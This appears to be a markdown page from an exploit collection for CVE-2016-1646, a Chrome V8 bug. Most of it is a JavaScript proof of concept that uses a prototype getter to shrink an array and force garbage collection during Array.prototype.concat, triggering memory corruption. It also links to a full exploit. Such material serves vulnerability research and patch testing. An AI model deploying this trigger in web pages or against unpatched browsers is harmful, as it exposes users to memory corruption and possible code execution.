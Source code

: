 # CVE-2016-1646

- Date: Mar 2016
- Credit: Wen Xu, Tencent KeenLab

## PoC

```javascript
function gc()
{
    for(var i=0;i<((1024 * 1024)/0x10);i++)
    {
        var a= new String();
    }
}

array    = new Array(10)
array[0] = 1.1
array[2] = 2.1
array[3] = 3.1

var proto = {};
array.__proto__ = proto;

Object.defineProperty(
  proto, 1, {
    get() {
      array.length = 1;
      gc();
      return "value from proto";
    },
    set(new_value) { }
});

Array.prototype.concat.call(array);
```

## Reference

- [Issue](https://bugs.chromium.org/p/chromium/issues/detail?id=594574)
- [Exploit by 4B5F5F4B](https://github.com/4B5F5F4B/Exploits/blob/master/Chrome/CVE-2016-1646/exploit.html)
